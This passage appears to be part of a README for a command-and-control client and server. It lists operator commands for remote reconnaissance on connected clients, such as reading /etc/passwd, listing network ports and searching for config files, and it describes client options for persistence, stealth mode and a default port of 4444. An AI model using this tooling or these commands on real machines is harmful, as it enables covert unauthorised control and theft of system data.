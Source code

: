 ### **Linux/macOS Equivalent Commands**
```bash
# System information
C2> exec <client_id> uname -a
C2> exec <client_id> whoami
C2> exec <client_id> id
C2> exec <client_id> cat /etc/passwd

# Network information
C2> exec <client_id> ifconfig
C2> exec <client_id> ip addr show
C2> exec <client_id> netstat -tulpn
C2> exec <client_id> ss -tulpn

# Process information
C2> exec <client_id> ps aux
C2> exec <client_id> top -n 1
C2> exec <client_id> systemctl list-units

# File operations
C2> exec <client_id> ls -la /home
C2> exec <client_id> find / -name "*.conf" 2>/dev/null
C2> exec <client_id> cat /etc/hosts
```

### **Client Command Line Options**
```bash
c2_client.exe [OPTIONS]

Options:
  -s, --server <SERVER>                    Server IP address [default: 127.0.0.1]
  -p, --port <PORT>                       Server port [default: 4444]
      --no-persistence                    Disable persistence (no auto-start)
      --no-stealth                       Disable stealth mode (for debugging)
      --reconnect-delay <SECONDS>         Reconnect delay in seconds [default: 30]
      --heartbeat-interval <SECONDS>      Heartbeat interval in seconds [default: 60]
  -h, --help                             Print help information
  -V, --version                          Print version information
```

### **Built-in Special Commands**
The client recognizes these special commands:
```bash
C2> exec <client_id> !info      # Display client system information
C2> exec <client_id> !ping      # Simple connectivity test (returns "pong")
C2> exec <client_id> !uptime    # Show system uptime
C2> exec <client_id> !exit      # Terminate client (use with caution)
```

## �️ Advanced Features
